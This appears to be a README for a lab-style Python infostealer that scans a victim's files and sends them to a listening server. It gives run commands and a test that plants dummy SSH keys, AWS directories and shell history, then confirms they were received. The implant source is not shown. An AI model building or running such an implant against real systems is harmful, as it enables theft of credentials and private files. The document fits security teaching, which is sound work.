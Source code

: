 Infostealer Implant 

Description:
This implant consists of two files: the malware implant and server. The malware implant (tmp363.py) scans a victim's systems for files and exfiltrate them to the server. The server (server363.py) accepts the data from each victim and write it on disk.

Dependencies:
- cryptography (Fernet): key is hardcoded
- os
- sys
- io
- socket 
- zipfile 
- time

Usage:
- 64 bit Kali Linux Virtual Machine
On one server: python3 server363.py [IP_ADDRESS] [PORT_NUMBER]
Another server: sudo python3 tmp363.py [IP_ADDRESS] [PORT_NUMBER]

Example Run:
1) Create a dummy user: ex. victim1
sudo adduser victim1

2) Create data for dummy user
//make directories for data
sudo mkdir -p /home/victim1/.ssh /home/victim1/.aws /home/victim1/.config
//put in data in directories
ex. echo "TEST_PRIVATE_KEY" > /home/victim1/.ssh/id_rsa; echo "HIST123" | sudo tee /home/victim1/.bash_history > /dev/null

3) Test server and implant connection
//set server on one terminal
python3 server363.py [IP_ADDRESS] [PORT_NUMBER]
should be expecting: [*] Listening on 127.0.0.1:12345
//set up implant on another 
sudo python3 tmp363.py [IP_ADDRESS] [PORT_NUMBER] 
connection should be working from server terminal: [+] Connection from 127.0.0.1

4) After connecting a subdirectory should be made: 
ex format: YEAR-MONTH-DAY:TIME_[IP_ADDRESS]

5) after cd into it, run 'find .' and you should find:
./victim1/.ssh/id_rsa
./victim1/.bash_history

6) after using cat, you should find the contents made from that data
cat victim1/.bash_history: HIST123
cat victim1/.ssh/id_rsa: TEST_PRIVATE_KEY

7) Server should terminate gracefully after running ctrl + c




